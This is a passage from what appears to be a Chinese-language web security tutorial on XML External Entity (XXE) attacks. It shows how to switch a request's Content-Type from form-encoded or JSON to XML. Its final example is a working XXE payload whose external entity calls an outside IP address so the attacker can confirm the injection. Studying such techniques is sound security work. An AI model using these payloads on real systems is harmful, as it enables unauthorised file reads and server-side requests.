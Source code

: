 影响有限，有以下原因：

-   仅限于同一 Origin
-   HTML 页面能打破 xml 结构
-   不支持动态实体
-   我曾想过使用 utf-16 xml 来避免破坏 xml 结构，但我没有成功。

但至少能读取到 J JSON 文件。

#### [Content-Type: From x-www-urlencoded to XML](#toc_content-type-from-x-www-urlencoded-to-xml)

如果 POST 请求接受 XML 格式的数据，您可以尝试利用该请求中的 XXE。例如，如果正常请求包含以下内容：

```bash
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

然后您可以提交以下请求，结果相同：

```bash
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

#### [Content-Type: From JSON to XEE](#toc_content-type-from-json-to-xee)

这个地方需要更改请求，可以使用名为“Content Type Converter”的 Burp 插件。例如：

```bash
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

可通过插件转换成：

```bash
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```
